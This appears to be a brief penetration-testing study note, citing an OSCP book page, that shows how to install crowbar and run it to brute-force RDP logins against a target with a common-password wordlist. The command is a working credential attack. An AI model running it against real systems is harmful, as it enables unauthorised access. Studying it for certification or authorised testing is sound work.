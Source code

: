 OSCP Book pg 581
```
sudo apt install crowbar
```
```
crowbar -b rdp -s $TARGET/32 -u $USER -C /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -n 1
```
